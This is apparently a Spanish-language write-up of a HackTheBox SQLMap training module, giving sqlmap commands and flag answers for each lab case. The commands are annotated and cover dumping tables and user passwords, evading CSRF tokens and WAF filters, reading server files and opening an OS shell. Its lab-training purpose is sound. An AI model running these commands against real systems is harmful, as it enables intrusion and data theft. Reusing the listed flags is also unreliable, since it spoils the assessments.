# SQLMap Essentials

## Getting Started

### SQLMap Overview

1. **What's the fastest SQLi type?**

answer: **Union query-based**

## Building Attacks

### Running SQLMap on an HTTP Request

1. **What's the contents of table flag2? (Case #2)**

```
sqlmap -u 'http://154.57.164.78:32460/case2.php' --data 'id=1*' --method POST -H 'Content-Type: application/x-www-form-urlencoded' --dbs --batch 
```

![[Preparación CPTS/Modulos/SQLMap Essentials/images/bbdd.png]]

Aquí tienes el desglose rápido de qué hace cada parte:

- **`-u 'http://154.57.164.78:32460/case2.php'`**: Es la **URL** objetivo que la herramienta va a analizar.
- **`--data 'id=1*'`**: Indica que los datos se envían por el cuerpo de la petición (típico de formularios). El asterisco (`*`) es crucial: le dice a sqlmap **exactamente dónde** quieres que intente inyectar el código malicioso (en el parámetro `id`).
- **`--method POST`**: Fuerza a que la petición sea de tipo **POST** (enviar datos ocultos en el cuerpo de la petición) en lugar de GET (en la URL).
- **`-H 'Content-Type: application/x-www-form-urlencoded'`**: Añade una **cabecera (Header)** HTTP específica que le indica al servidor el formato en el que viajan los datos del formulario.
- **`--dbs`**: Es la orden de ataque. Significa _"Database System"_; si sqlmap encuentra una vulnerabilidad, intentará **listar los nombres de todas las bases de datos** disponibles en ese servidor.
- **`--batch`**: Le dice a sqlmap que use la **configuración por defecto** y no te haga preguntas interactivas (como "sí/no") durante el escaneo. Corre en modo automático.

```
sqlmap -u 'http://154.57.164.78:32460/case2.php' --data 'id=1*' --method POST -H 'Content-Type: application/x-www-form-urlencoded' -D testdb -T flag2 --dump --batch
```

![[Preparación CPTS/Modulos/SQLMap Essentials/images/flag.png]]

answer: **HTB{700_much_c0n6r475_0n_p057_r3qu357}**

2. **What's the contents of table flag3? (Case #3)**

```
sqlmap -u 'http://154.57.164.80:30915/case3.php' --cookie 'id=1*' -T flag3 --dump --batch
```

- **`-u 'http://154.57.164.80:30915/case3.php'`**: La **URL** del objetivo que vas a auditar.
- **`--cookie 'id=1*'`**: Esto es lo más importante de este comando. Le dice a sqlmap que la vulnerabilidad no está en un formulario ni en la URL, sino **dentro de una Cookie de sesión**. El asterisco (`*`) vuelve a marcar el punto exacto del parámetro `id` donde la herramienta debe inyectar el código.
- **`-T flag3`**: Le especifica a sqlmap que apunte a una **tabla (Table)** concreta llamada `flag3`.
- **`--dump`**: Es la orden de extracción. Significa _"vuelca los datos"_. Al combinarlo con `-T flag3`, le estás diciendo: _"Entra en la tabla `flag3` y **roba/descarga toda la información** que haya dentro (columnas y filas)"_.
- **`--batch`**: Al igual que antes, automatiza el proceso. Responde "sí" a todas las preguntas por defecto para que el escaneo corra solo y sin pausas.

<p align="center"> 

</p>

answer: **HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475}**

3. **What's the contents of table flag4? (Case #4)**

```
sqlmap -u 'http://154.57.164.80:30915/case4.php' -H 'Content-Type: application/json' --data '{"id":1}' -T flag4 --dump --method POST --batch
```

- **`-u 'http://154.57.164.80:30915/case4.php'`**: La **URL** del objetivo que se va a analizar.
- **`-H 'Content-Type: application/json'`**: Añade una cabecera (Header) HTTP crucial. Le avisa al servidor que los datos que le vas a enviar no son un formulario común, sino que están estructurados en formato **JSON**.
- **`--data '{"id":1}'`**: Son los datos que se envían en el cuerpo de la petición. A diferencia de los casos anteriores, aquí la estructura es un objeto JSON (`{"id":1}`). Sqlmap es lo bastante inteligente como para detectar el valor `1` dentro del JSON e intentar inyectar el código ahí automáticamente (por eso aquí no has necesitado poner el asterisco `*`, aunque también podrías haber puesto `{"id":1*}`).
- **`--method POST`**: Indica que la petición se enviará mediante el método **POST**, que es el estándar cuando se envían objetos JSON en el cuerpo del mensaje.
- **`-T flag4`**: Especifica que quieres apuntar directamente a una tabla llamada **`flag4`**.
- **`--dump`**: Le ordena a sqlmap que descargue y muestre en pantalla todo el contenido (filas y columnas) de esa tabla `flag4`.
- **`--batch`**: Automatiza el proceso para que la herramienta no te pregunte nada y tome las decisiones por defecto.

<p align="center"> 

</p>

answer: **HTB{j450n_v00rh335_53nd5_6r475}**

### Attack Tuning 

1. **What's the contents of table flag5? (Case #5)**

Sino funciona este comando 

```
sqlmap -u 'http://154.57.164.66:30317/case5.php?id=1' -T flag5 --no-cast --dump --batch --risk 3 --level 5
```

**`--no-cast`**: Le prohíbe a sqlmap que altere o "convierta" los tipos de datos originales de la base de datos a texto plano común (evita el uso de funciones como `CAST` o `CONVERT`).

Probar con este otro:

```
sqlmap -u 'http://154.57.164.80:30915/case5.php?id=1' -T flag5 --dump --batch --risk 3 --level 5 --fresh-queries
```

- **`-u 'http://154.57.164.80:30915/case5.php?id=1'`**: La **URL** del objetivo. El parámetro a evaluar e inyectar es `id=1`.
- **`-T flag5 --dump`**: Le indica a sqlmap que apunte directamente a la tabla **`flag5`** y **vuelque (descargue)** todo su contenido en tu pantalla.
- **`--batch`**: Automatiza el proceso. Responde "sí" a todas las preguntas de configuración de forma automática para que no tengas que intervenir.
- **`--risk 3 --level 5`**: Configura a sqlmap en su **máxima potencia y agresividad**. Prueba una cantidad enorme de payloads complejos (nivel 5) y permite el uso de técnicas basadas en tiempo o condiciones matemáticas que podrían alterar el entorno pero que saltan filtros estrictos (riesgo 3).
- **`--fresh-queries`**: Este parámetro es fundamental aquí. Obliga a sqlmap a **ignorar por completo los resultados que ya tiene guardados en el disco** y realizar todo el proceso de inyección desde cero. Si no pones esto, sqlmap simplemente te volvería a mostrar la flag rota que ya guardó en tu carpeta local.

<p align="center"> 

</p>

answer: **HTB{700_much_r15k_bu7_w0r7h_17}**

2. **What's the contents of table flag6? (Case #6)**

```
 sqlmap -u 'http://154.57.164.66:30317/case6.php?col=id' -T flag6 --dump --batch --risk 3 --level 5 --prefix='`)'
```

- **`-u 'http://154.57.164.66:30317/case6.php?col=id'`**: La URL objetivo. Nota que aquí el parámetro ya no es `id`, sino `col=id` (probablemente define una columna por la que ordenar o filtrar).
- **`-T flag6 --dump`**: Va directo a la tabla llamada `flag6` y extrae (`--dump`) toda la información que contenga para mostrártela en la terminal.
- **`--batch`**: Automatiza el escaneo. No te hará preguntas y seleccionará siempre las respuestas por defecto.
- **`--risk 3 --level 5`**: El nivel máximo de agresividad de sqlmap. Prueba cientos de combinaciones (nivel 5) y utiliza técnicas sofisticadas que pueden causar ruido o alterar tiempos de respuesta en el servidor (riesgo 3) para saltarse cualquier tipo de Firewall (WAF) o filtro.
* ***`--prefix`)**. `Es una "ganzúa" sintáctica que sqlmap añade al inicio de cada ataque para romper el encapsulamiento del código en el servidor. Está escrito así porque la primera comilla invertida (\`) cierra la comilla que abrió el programador, y el paréntesis (`)`) cierra el paréntesis de la consulta original; al completar prematuramente la estructura del servidor, se evita un error de sintaxis y se obliga a la base de datos a ejecutar tu inyección SQL como una orden real y legítima.

<p align="center"> 

</p>

answer: **HTB{v1nc3_mcm4h0n_15_4570n15h3d}**

3. **What's the contents of table flag7? (Case #7)**

```
sqlmap -u 'http://154.57.164.66:30317/case7.php?id=1' --union-cols 5-8 --level=3 --risk=3 --dump -T flag7 --technique=U -D testdb --batch
```

- **`-u 'http://154.57.164.66:30317/case7.php?id=1'`**: La **URL** objetivo y el parámetro (`id`) que se va a testear.
- **`--union-cols 5-8`**: Este es el parámetro clave del **Caso 7**. En una inyección UNION, el atacante debe adivinar el número exacto de columnas que tiene la consulta original del servidor para que el ataque funcione. Al poner `5-8`, le estás diciendo a sqlmap: _"No pierdas tiempo probando desde 1 columna; ve directo a probar si la tabla tiene 5, 6, 7 o 8 columnas"_. Esto acelera enormemente el ataque.
- **`--technique=U`**: Fuerza a sqlmap a utilizar **únicamente la técnica de UNION query**. Ignorará otros métodos (como inyecciones basadas en tiempo o errores), yendo directo al grano.
- **`-D testdb -T flag7 --dump`**: Va directo a la base de datos **`testdb`**, busca la tabla **`flag7`** y vuelca (**`--dump`**) todo su contenido en tu pantalla.
- **`--level=3 --risk=3`**: Activa un nivel alto de agresividad. El riesgo 3 permite usar sentencias matemáticas complejas y el nivel 3 expande los payloads probados, lo cual suele ser necesario si el servidor tiene algún tipo de filtro básico.

<p align="center"> 

</p>

answer: **HTB{un173_7h3_un173d}**

## Database Enumeration

### Database Enumeration

1. **What's the contents of table flag1 in the testdb database? (Case #1)**

```
sqlmap -u 'http://154.57.164.82:30448/case1.php?id=1' -T flag1 --dump --batch --risk 3 --level 5 --dbms MYSQL -D testdb
```

- **`-u 'http://154.57.164.82:30448/case1.php?id=1'`** Especifica la **URL objetivo** y el parámetro (`id`) que se va a analizar y explotar.
- **`-D testdb`** Indica la **Base de Datos objetivo** (Database). Le dice a `sqlmap` que trabaje específicamente dentro de la base de datos llamada `testdb`.
- **`-T flag1`** Indica la **Tabla objetivo**. Restringe la operación únicamente a la tabla llamada `flag1` (un nombre muy común en laboratorios de tipo CTF o _Capture The Flag_).
- **`--dump`** Es la orden de **descarga**. Le indica a la herramienta que extraiga y muestre todos los registros y datos contenidos en la tabla especificada (`flag1`).
- **`--batch`** Automatiza las respuestas. Configura la herramienta para que elija automáticamente las opciones por defecto en cada pregunta que surja durante la ejecución, evitando interrupciones manuales.
- **`--risk 3`** Aumenta el **nivel de riesgo** de los _payloads_ (las cargas útiles de inyección) a su nivel máximo (el valor por defecto es 1). El riesgo 3 permite el uso de inyecciones basadas en OR, lo que puede modificar significativamente las consultas SQL del servidor y, en entornos de producción reales, podría llegar a causar alteraciones no deseadas en la base de datos.
- **`--level 5`** Aumenta el **nivel de pruebas** al máximo (el valor por defecto es 1). El nivel 5 expande la cantidad de vectores de ataque que `sqlmap` intentará. No solo probará el parámetro en la URL, sino que también analizará cabeceras HTTP (como `User-Agent`, `Referer`, o `Cookie`) y realizará una cantidad de peticiones mucho mayor y más exhaustiva.
- **`--dbms MYSQL`** Optimiza el proceso indicando directamente el **Sistema de Gestión de Bases de Datos** (DBMS) que utiliza el servidor. Al saber de antemano que es MySQL, `sqlmap` se salta las pruebas para otros motores (como PostgreSQL o Oracle), ahorrando tiempo y reduciendo el ruido generado.

<p align="center"> 

</p>

answer: **HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n}**

### Advanced Database Enumeration

1. **What's the name of the column containing "style" in it's name? (Case #1)**

```
sqlmap -u 'http://154.57.164.82:30448/case1.php?id=1' --batch --search -C "style" 
```

- **`-u 'http://154.57.164.82:30448/case1.php?id=1'`** El parámetro `-u` (o `--url`) le indica a sqlmap cuál es la **URL objetivo**. Además, le estás diciendo que analice el parámetro `id=1` para ver si es vulnerable a inyección SQL.
- **`--batch`** Este parámetro es para automatizar el proceso. Le dice a sqlmap: _"No me preguntes nada, elige siempre la opción por defecto"_. Es súper útil para dejar la herramienta corriendo sola sin tener que estar presionando "Y" (sí) o "N" (no) a cada rato.
- **`--search`** Esta es la orden de **buscar**. Le indica a sqlmap que vas a realizar una búsqueda exhaustiva dentro de la estructura de la base de datos que logre vulnerar.
- **`-C "style"`** El parámetro `-C` especifica que quieres buscar **Columnas** (Columns). Al combinarlo con `--search`, le estás diciendo textualmente: _"Busca dentro de toda la base de datos cualquier columna que se llame o contenga la palabra 'style'"_.

<p align="center"> 

</p>

answer: **PARAMETER_STYLE**

2. **What's the Kimberly user's password? (Case #1)****

```
sqlmap -u 'http://154.57.164.82:30448/case1.php?id=1' --dump --batch --columns -C name,password -T users
```

- **`-u 'http://154.57.164.82:30448/case1.php?id=1'`** Especifica la **URL objetivo** y el parámetro (`id`) que la herramienta probará y explotará mediante inyección SQL.
- **`--dump`** Es la orden de **descargar o extraer los datos**. En lugar de solo mostrar la estructura (como el nombre de las tablas), este parámetro le dice a `sqlmap` que traiga los registros almacenados dentro de la base de datos y los guarde localmente en tu equipo.
- **`--batch`** Automatiza la ejecución. Le indica a la herramienta que acepte de forma automática todas las opciones por defecto, evitando que se detenga a pedir confirmación manual durante el proceso de extracción.
- **`--columns -C name,password`** Filtra la extracción por columnas específicas. El parámetro `-C` le dice explícitamente a la herramienta que solo le interesan los datos contenidos en las columnas llamadas **`name`** y **`password`**.
- **`-T users`** Especifica la **tabla objetivo**. El parámetro `-T` le indica a `sqlmap` que restrinja la búsqueda y la extracción únicamente dentro de la tabla llamada **`users`**.

<p align="center"> 

</p>

answer: **Enizoom1609**

## Advanced SQLMap Usage 

### Bypassing Web Application Protections 

1. **What's the contents of table flag8? (Case #8)**

Capturamos la petición con burpsuite

<p align="center"> 

</p>

Guardamos la petición en un .txt, le **clikamos botón derecho del ratón** - **Save item**

<p align="center"> 

</p>

```
sqlmap -r peticion.txt -p id --csrf-token="t0ken" --csrf-url="http://154.57.164.82:30448/case8.php" --random-agent --batch --search -T flag8
```

- **`-r peticion.txt`** En lugar de pasarle solo una URL, le estás proporcionando un **archivo de texto que contiene la petición HTTP completa** (tal y como la captura un proxy como Burp Suite). Esto incluye las cabeceras originales, las cookies, el método (POST/GET) y la estructura exacta de los datos.
- **`-p id`** Le indica a `sqlmap` que pruebe **únicamente** el parámetro llamado `id`. Esto ahorra mucho tiempo, ya que la herramienta no perderá peticiones analizando otros parámetros o cabeceras que aparezcan en el archivo `peticion.txt`.
- **`--csrf-token="t0ken"`** Especifica el nombre del parámetro o campo que el sitio web utiliza para validar el token anti-CSRF. Al indicarle que se llama `"t0ken"`, `sqlmap` sabrá exactamente qué valor debe actualizar en cada intento de inyección.
- **`--csrf-url="[http://154.57.164.82:30448/case8.php](http://154.57.164.82:30448/case8.php)"`** Esta es la clave del comando. Le indica a `sqlmap` a qué URL debe hacer una petición previa para **extraer un token CSRF fresco y válido** justo antes de lanzar el siguiente ataque de inyección SQL.
- **`--random-agent`** Configura la herramienta para que cambie la cabecera `User-Agent` de forma aleatoria en cada petición. Esto hace que las solicitudes parezcan provenir de diferentes navegadores web (Chrome, Firefox, Safari) en lugar de mostrar la firma por defecto de `sqlmap`, ayudando a evitar bloqueos automatizados muy básicos.
- **`--batch`** Modo automático. Responde afirmativamente ("sí") por defecto a todas las preguntas que la herramienta suele hacer durante el escaneo, evitando que el proceso se pause.
- **`--search -T flag8`** Es la combinación para buscar una tabla específica. Le ordena a `sqlmap` que, una vez consiga vulnerar el sistema, rastree la base de datos para localizar la ubicación exacta de la tabla llamada **`flag8`** (un patrón clásico en retos de ciberseguridad tipo CTF).

<p align="center"> 

</p>

answer: **HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d}**

2. **What's the contents of table flag9? (Case #9)**

Como se tiene un valor único hay que poner el parámetro `--randomize='uid'`

<p align="center"> 

</p>

```
sqlmap -u "http://154.57.164.82:30448/case9.php?id=1&uid=1377020578" -p id --batch --random-agent --randomize=uid -T flag9 --dump --no-cast
```

- **`-u "http://154.57.164.82:30448/case9.php?id=1&uid=1377020578"`** Especifica la URL objetivo. A diferencia del intento anterior, aquí ya incluye de forma correcta los dos parámetros que el servidor necesita recibir: `id` y `uid`.
- **`-p id`** Le ordena a `sqlmap` que **ataque única y exclusivamente el parámetro `id`**. Esto significa que todas las cargas útiles (_payloads_) de inyección SQL se colocarán ahí, dejando el parámetro `uid` libre de ataques.
- **`--randomize=uid`** Esta es la clave del comando. Le indica a `sqlmap` que, en cada una de las peticiones que realice, **cambie el valor del parámetro `uid` por un número aleatorio nuevo**. Esto simula que un usuario real está interactuando con la página o genera los identificadores únicos que el servidor espera para no sospechar de un ataque automatizado repetitivo.
- **`--random-agent`** Modifica la cabecera `User-Agent` de forma aleatoria en cada solicitud HTTP, simulando diferentes navegadores (Safari, Firefox, Chrome, etc.) para evadir reglas de detección muy básicas basadas en firmas de herramientas.
- **`--batch`** Activa el modo automático. `sqlmap` no se detendrá a hacerte preguntas en la terminal (como qué tipo de pruebas hacer o si deseas optimizar el ataque); elegirá siempre las respuestas por defecto y continuará por su cuenta.
- **`-T flag9 --dump`** Es el objetivo final. Una vez que la herramienta logre romper el parámetro `id`, buscará la tabla llamada **`flag9`** y **descargará (`--dump`) todo su contenido** para mostrártelo en la pantalla.
- **`--no-cast`** Es una opción de optimización de payloads. Le dice a `sqlmap` que no envuelva los payloads de extracción en funciones de conversión de tipos (como `CAST()` o `CONVERT()`). Esto se utiliza cuando el DBMS objetivo (como MySQL) tiene problemas o limitaciones con estas funciones, o para hacer que las consultas de inyección sean más limpias y cortas, reduciendo la probabilidad de que rompan la lógica de la aplicación.

<p align="center"> 

</p>

answer: **HTB{700_much_r4nd0mn355_f0r_my_74573}**

3. **What's the contents of table flag10? (Case #10)**

Para crear la siguiente consulta haremos lo siguiente: **Inspeccionamos la página** http://154.57.164.82:30448/case10.php - **Network** - **case10.php** - **Cppy Value** - **Copy as Curl**

<p align="center"> 

</p>

Luego creamos el siguiente comando:

```
sqlmap -u 'http://154.57.164.82:30448/case10.php' \
  --compressed \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://154.57.164.82:30448/case10.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://154.57.164.82:30448' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: PHPSESSID=nllku4n0gf81rdnd5lr2akkjqn' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
  --data-raw 'id=1' --tamper=between --batch -D testdb -T flag10 --dump
```

* ***--tamper=between** `Es un modificador que sirve para evadir sistemas de seguridad (como cortafuegos o WAF) que bloquean el uso del signo de igualdad (=).`

<p align="center"> 

</p>

answer: **HTB{y37_4n07h3r_r4nd0m1z3}**

4. **What's the contents of table flag11? (Case #11)**

```
sqlmap -u 'http://154.57.164.82:30448/case11.php?id=1' --tamper=between -D testdb -T flag11 --dump --batch
```

<p align="center"> 

</p>

answer: **HTB{5p3c14l_ch4r5_n0_m0r3}**

### OS Exploitation

1. **Try to use SQLMap to read the file "/var/www/html/flag.txt".**

Interceptamos la siguiente pagina `http://154.57.164.82:32382/?id=1` con burpsuite y guardamos la petición en un .txt 

<p align="center"> 

</p>

```
sqlmap -r archivo.txt --file-read="/var/www/html/flag.txt" --batch
```

<p align="center"> 

</p>

```
cat /home/dani/.local/share/sqlmap/output/154.57.164.82/files/_var_www_html_flag.txt
```

answer: **HTB{5up3r_u53r5_4r3_p0w3rful!}**

2. **Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.**

```
sqlmap -r archivo.txt --os-shell --technique=E --batch
```

- **`--os-shell`** Es el parámetro principal. Le ordena a `sqlmap` que intente **subir un script ejecutable (una _web shell_) al servidor web**. Si tiene éxito, te otorgará una terminal interactiva en tu propia consola desde la cual podrás ejecutar comandos directamente en el sistema operativo del servidor (como `whoami`, `ls`, `ip a`, etc.).
    
    > _Nota:_ Para que esto funcione, la base de datos generalmente necesita privilegios de administrador (como `root` o `sa`) y permisos de escritura en el disco del servidor.
    
- **`--technique=E`** Restringe las técnicas de inyección SQL que utilizará la herramienta, ordenándole que use **únicamente** la técnica basada en **Errores** (_Error-based SQL Injection_). Esto acelera enormemente el proceso, ya que las inyecciones basadas en errores aprovechan mensajes detallados que el propio servidor devuelve para ejecutar código de forma muy rápida y directa.

```
ls /
cat /flag.txt
```

<p align="center"> 

</p>

answer: **HTB{n3v3r_run_db_45_db4}**

## Skills Assesment

### Skills Assessment

1. **What's the contents of table final_flag?**

Para empezar, este ejercicio es muy asqueroso, ya que, ningún botón funciona, y a veces donde tenemos que acceder se cae la página a lo que lleva reiniciar el ejercicio, una vez ingresado a la página.

```
http://154.57.164.82:30899
```

<p align="center"> 

</p>

**Catalog** - **Shop**

<p align="center"> 

</p>

Activamos burpsuite y tal, e interceptamos la solicitud cuando le damos al botón **ADD TO CART**

<p align="center"> 
